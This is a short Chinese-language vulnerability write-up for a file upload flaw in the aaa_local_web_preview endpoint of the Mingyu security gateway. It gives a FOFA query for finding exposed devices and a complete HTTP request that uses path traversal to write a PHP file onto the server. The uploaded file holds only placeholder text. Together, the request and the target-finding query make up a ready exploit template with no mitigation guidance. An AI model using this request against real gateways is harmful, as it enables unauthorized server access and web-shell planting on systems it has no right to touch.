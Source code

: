 # 安恒明御安全网关aaa_local_web_preview文件上传漏洞



### 1.漏洞描述



安恒明御安全网关是一个网络安全产品，由安恒信息技术股份有限公司开发和提供。它是一个综合性的安全管理平台，用于保护企业网络免受各种网络威胁的攻击。该产品aaa_local_web_preview端点存在文件上传漏洞。

### 2.fofa语法



```
title=="明御安全网关"
```

​    

### 3.漏洞复现



```
POST /webui/?g=aaa_local_web_preview&name=123&read=0&suffix=/../../../test.php HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Content-Type: multipart/form-data; boundary=849978f98abe41119122148e4aa65b1a
Accept-Encoding: gzip
Content-Length: 196

--849978f98abe41119122148e4aa65b1a
Content-Disposition: form-data; name="123"; filename="test.php"
Content-Type: text/plain

This page has a vulnerability
--849978f98abe41119122148e4aa65b1a--
```

![image-20240925211448770](C:\Users\18484\AppData\Roaming\Typora\typora-user-images\image-20240925211448770.png)
